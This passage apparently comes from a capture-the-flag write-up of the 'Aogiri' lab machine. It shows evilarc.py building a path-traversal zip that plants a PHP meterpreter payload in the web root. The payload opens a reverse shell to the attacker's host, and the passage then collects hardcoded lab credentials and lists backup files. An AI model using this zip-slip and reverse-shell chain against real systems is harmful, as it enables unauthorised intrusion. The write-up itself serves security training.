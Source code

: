 ```
# python evilarc.py -f met.zip -o unix -p "../../../../../../var/www/html" met.php
Creating met.zip containing ../../../../../../../../../../../../../../var/www/html/met.php
```

After creating the archive, I uploaded it then triggered the meterpreter payload by browsing to it `/met.php`

```
[*] Started reverse TCP handler on 10.10.14.23:4444
msf5 exploit(multi/handler) > [*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.101
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.101:46874) at 2019-05-06 21:41:05 -0400

meterpreter > shell
Process 1180 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Aogiri:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Cool, I now have a shell but I can't read any of the home directories:

```
www-data@Aogiri:/var/backups/backups/keys$ ls -l /home
ls -l /home
total 24
drwx------ 1 Eto    Eto    4096 Dec 13 13:45 Eto
drwx------ 1 kaneki kaneki 4096 Dec 13 13:45 kaneki
drwx------ 1 noro   noro   4096 Dec 13 13:45 noro
```

Next, I checked the `/var/www/html` directory for any useful data or credential in the website source files:

`login.php` has hardcoded credentials:

```php
if(isset($_POST['Submit'])){
/* Define username and associated password array */
$logins = array('kaneki' => '123456','noro' => 'password123','admin' => 'abcdef');
```

`/usr/share/tomcat7/conf/tomcat-users.xml` has some more credentials:

```
<!--<user username="admin" password="test@aogiri123" roles="admin" />
  <role rolename="admin" />-->
```

### Find SSH user keys

After some enumeration I found interesting stuff in `/var/backups/backups`:

```
www-data@Aogiri:/var/backups/backups$ ls -la
ls -la
total 3852
drwxr-xr-x 1 root root    4096 Dec 13 13:45 .
drwxr-xr-x 1 root root    4096 Dec 13 13:45 ..
-rw-r--r-- 1 root root 3886432 Dec 13 13:45 Important.pdf
drwxr-xr-x 2 root root    4096 Dec 13 13:45 keys
-rw-r--r-- 1 root root     112 Dec 13 13:45 note.txt
-rw-r--r-- 1 root root   29380 Dec 13 13:45 sales.xlsx
```
